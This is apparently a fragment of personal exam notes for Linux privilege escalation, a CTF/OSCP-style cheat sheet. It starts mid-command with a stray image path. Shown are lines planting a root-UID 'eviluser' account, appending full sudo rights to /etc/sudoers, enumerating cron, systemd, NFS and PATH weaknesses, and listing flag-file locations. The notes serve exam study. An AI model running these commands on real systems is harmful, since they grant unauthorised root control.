 eviluser:x:0:0::/root:/bin/bash

su eviluser


(Cron Jobs)

cat /etc/crontab

ls -la /etc/cron.*


(Writable /etc/sudoers)

echo "harshal ALL=(ALL:ALL) ALL" >> /etc/sudoers

sudo su


(Writable Service Files)

find /etc/systemd/system/ -writable -type f 2>/dev/null


(LinPEAS/Manual Enumeration)

./linpeas.sh

./LinEnum.sh


(Exploit Weak NFS Permissions)

showmount -e <target_ip>


(Escalate via PATH Hijacking)

echo $PATH


**flag**

/home/<username>/local.txt

/home/<compromised_user>/local.txt


/root/proof.txt

-----

cat /root/root.txt

cat /home/<user>/user.txt


type C:\Users\Administrator\Desktop\root.txt

type C:\Users\<user>\Desktop\user.txt



**upload flags**

exam control panel 

copy the content of the flag and paste it into the respective submission field

